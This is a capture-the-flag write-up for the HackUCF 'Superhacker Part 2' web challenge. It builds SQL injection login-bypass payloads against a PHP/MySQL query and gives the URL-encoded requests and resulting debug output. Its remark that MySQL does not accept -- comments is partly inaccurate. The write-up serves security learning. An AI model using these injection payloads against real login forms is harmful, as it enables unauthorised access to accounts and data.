

# Superhacker Part 2
**Category:** Web

**Points:** 25

**Description:**

http://ctf.hackucf.org:4001/

Author: kablaa

## Write-up
This is the second part of [Superhacker Part1](../Web_SuperhackerPart1/README.md). Therefore, the opening page is the same:



For this challenge we need to get the code to give us `$flag2`. This means we need to get into the same part as for `Superhacker Part1`, but also need to ensure that the `SELECT` command returns at least one row from the `users` table. This is because the condition to get to `$flag2` is:
```php
if(mysqli_num_rows($res) > 0) {
    echo "$flag2" ;
}
```
This is going to require some SQL intection. We could get all rows from the table with a `SELECT` statement like:
```sql
SELECT * FROM users WHERE username LIKE '%'
```
However, to inject code into the current statement, we need to put the code into the `username` or `password`. We can use `OR` in an SQL statement to add our `LIKE` clause to the existing `SELECT` by having `username` start with a closing quote (`'`), and then our `OR username LIKE '%'` clause, followed by the single line comment symbol `--`. The single-line-comment marker will exclude the original closing quote from the username and all the `password` part of the line. The SQL statement we will be creating is:
```sql
SELECT * FROM users WHERE username = '' OR username LIKE '%' --' AND password = 'pass'
```
To do this we need to pass the string through the URL, because we also need to set `iamahacker` and `debug` (we don't actually need to set `debug`, but it's useful to check our statement). This means any special characters need to be set to the ASCII hex value for that character. This includes the closing (and any other) quote (`%27`), any spaces (`%20`) and the percent sign (`%25`). Therefore, our final URL should be:
```
http://ctf.hackucf.org:4001?username=%27%20OR%20username%20LIKE%20%27%25%27%20--&password=pass&iamahacker=1&debug=1
```
I tried this, but it didn't work, and gave an error:
```
flag{<flag1 here>}
SELECT * FROM users WHERE username = '' OR username LIKE '%' --' AND password = 'pass'

Warning: mysqli_num_rows() expects parameter 1 to be mysqli_result, boolean given in /app/index.php on line 21
```
So I now needed to figure out where this had gone wrong...

> I couldn't spot what was wrong. So, for now, and after consultation with a friend who had previously solved this, I used the URL:  
`http://ctf.hackucf.org:4001/?username=%27%20OR%20%27%27=%27&password=%27%20OR%20%27%27=%27&iamahacker=1&debug=1`  
which makes the select statement:  
`SELECT * FROM users WHERE username = '' OR ''='' AND password = '' OR ''=''`  
and gave me the flag. However, I will return and fix my original solution when I work out the problem.

I finally spotted my mistake. In standard SQL, a single-line comment is denoted with `--`. However in MySQL, a single-line comment uses `#`. So now I need to create the statement:
```sql
SELECT * FROM users WHERE username = '' OR username LIKE '%' #' AND password = 'pass'
```
so I updated the URL to do this to:
```
http://ctf.hackucf.org:4001?username=%27%20OR%20username%20LIKE%20%27%25%27%20%23&password=pass&iamahacker=1&debug=1
```
This worked and gave me the second flag:
```
flag{<flag1 here>}
SELECT * FROM users WHERE username = '' OR username LIKE '%' #' AND password = 'pass'
flag{<flag2 here>}
```
